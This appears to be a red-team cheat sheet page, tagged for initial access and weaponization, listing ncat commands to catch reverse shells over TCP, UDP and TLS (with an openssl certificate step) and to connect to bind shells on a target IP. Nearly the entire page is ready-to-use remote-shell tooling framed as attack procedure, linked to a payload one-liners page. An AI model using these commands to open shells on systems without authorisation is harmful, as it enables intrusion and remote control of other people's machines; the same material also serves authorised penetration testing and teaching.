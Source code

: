```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - cross-platform
  - ncat
---
```

# Ncat

## 01 - Reverse Shell Handler

## 1.1 - TCP Method

```
$ ncat -lnvp <PORT>
```

Whitelist IP addresses. If it's a file then the IP addresses should be separated line by line.

```
$ ncat -lnvp <PORT> --allow <IP_1>,<IP_n>

$ ncat -lnvp <PORT> --allowfile whitelist_ips.txt
```

Blacklist IP addresses. If it's a file then the IP addresses should be separated line by line.

```
$ ncat -lnvp <PORT> --deny <IP_1>,<IP_n>

$ ncat -lnvp <PORT> --denyfile blacklist_ips.txt
```

## 1.2 - UDP Method

```
$ ncat -lnuvp <PORT>
```

## 1.3 - TLS Method

Generate TLS certificate.

```
userware@hackware-os:~$ openssl req -x509 -newkey rsa:4096 -days 365 -nodes -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email> -keyout private.key -out certificate.crt
```

Launch shell handler.

```
$ ncat --ssl --ssl-key private.key --ssl-cert certificate.crt -lp <PORT>
```

## 02 - Bind Shell Handler

### 2.1 - TCP Method

```
$ ncat <target_IP> <target_PORT>
```

### 2.2 - UDP Method

```
$ ncat -u <target_IP> <target_PORT>
```

### 2.3 - TLS Method

```
$ ncat --ssl <target_IP> <target_PORT>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Implant/Windows/Payloads/One-Liners/Netcat]]